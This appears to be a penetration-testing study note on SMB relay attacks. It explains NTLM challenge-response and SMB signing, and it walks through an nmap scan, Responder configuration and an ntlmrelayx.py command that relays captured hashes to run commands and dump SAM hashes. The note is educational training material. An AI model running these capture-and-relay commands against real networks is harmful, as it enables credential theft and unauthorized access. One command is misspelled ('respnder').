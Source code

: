 
# SMB Relay Attack
In an [SMB](/networking/protocols/SMB.md)-Relay attack, instead of attempting to crack the hashes gathered from the network with [Responder](/PNPT/PEH/active-directory/initial-vectors/responder.md), an attacker relays those hashes to other machines in the hopes that *one will allow them to gain access*.
## Basic Flow
SMB Relay takes advantage of regular authentication attempts by common automated systems on a network. These automated systems perform regular management tasks on devices on the network. To do so, they attempt to logon/ authenticate with any device which connects to the network using [NTLM](/networking/protocols/NTLM.md).
### Normal Function
The service tries to authenticate with the server. The server responds with a challenge, usually 'if you're really the user you say you are, then encrypt this challenge with the user's *password hash* and send it back.'

The service on the client encrypts the challenge w/ the user's password and sends the new value back to the server. The server decrypts the answer with the user's password and, if it decrypts to the original challenge it sent, it authenticates the service.
### Exploitation
An attacker can exploit this vulnerable exchange by capturing the traffic b/w the service and the server, modifying it, and essentially hijacking the authentication by the server of the service (the attacking machine gets authenticated instead).

By hijacking the authentication, the attacker gains access *to the target server which sent the challenge*.
![](PNPT/PNPT-pics/smbrelay.png)
> [Cowdex](https://cowdex.github.io/posts/smb-relay-attack/)
#### Requirements:
- SMB Signing disabled
- Admin credentials: the relayed user credentials *must be admin credentials* or you don't gain much from obtaining them. 
- Additionally, you can't relay the credentials to yourself (attacker). The credential *must be relayed to a different computer*.
## Exploitation
### Identify Hosts without SMB signing
First, we have to find hosts on the target network which have SMB signing disabled.
#### What is SMB signing?
SMB signing is a security mechanism added to the SMB protocol by Microsoft starting with Windows 2000. It protects the integrity of messages sent b/w a client and a server by signing each message with a signature generated via the session key.

This *prevents tampering of the message* by an attacker because any tampering will *change the hash*, thus signaling to the system that the message was compromised in-transit.
#### Using [nmap](../../../../CLI-tools/linux/remote/nmap.md)
Nmap has a script which will report back which hosts on the network have SMB signing disabled. To run it, just use:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p139,445 10.10.10.175
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-27 14:40 GMT
Nmap scan report for egotistical-bank.local (10.10.10.175)
Host is up (0.040s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required  # here

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```
Regardless of the number of targets which come back as not requiring SMB signing, add each one to a file called `targets.txt`.
### Relay w/ [Responder](../../../../cybersecurity/TTPs/exploitation/tools/responder.md) & `smbrelayx.py`
Once we've found a good host, we're going to use a combination of Responder and `smbrelayx.py`to capture a hash and then relay if (using our own server) to the target.

First, we have to update our Responder configuration so it doesn't act as the server (since the impacket script will do that for us).
`/usr/share/responder/Responder.conf`
```bash
[Responder Core]                                                           
; Servers to start                                                                
SQL = On                                                                        
SMB = Off    # this should be off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off   # this should be off                                                     ...
```
#### Responder
The command we give to responder will tell Responder to listen on our specified interface and passively capture hashes on the network:
```bash
respnder -I eth0 -dwPv
```
- `d`: [DHCP](/networking/protocols/DHCP.md) (allows Responder to answer DHCP broadcast requests)
- `w`: [WPAD](/computers/windows/active-directory/WPAD.md) proxy server
- `P`: ProxyAuth (forces NTLM authentication)
- `v`: verbose
#### `ntlmrelayx.py`
The `ntlmrelayx.py` script is from python [impacket](../../../../cybersecurity/TTPs/exploitation/tools/impacket.md) which will handle relaying the hashes captured by responder to the target devices.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
#### Success
Upon successful relay to the target, impacket will print the local SAM hashes for accounts on the target device. Ideally, one of those will be from an Administrator account.

> [!Resources]
> - [Microsoft: Overview of SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
> - [Mark Baggett: SMB Relay Demystified...](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
> - [Cowdex: SMB Relay Attack](https://cowdex.github.io/posts/smb-relay-attack/)
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)


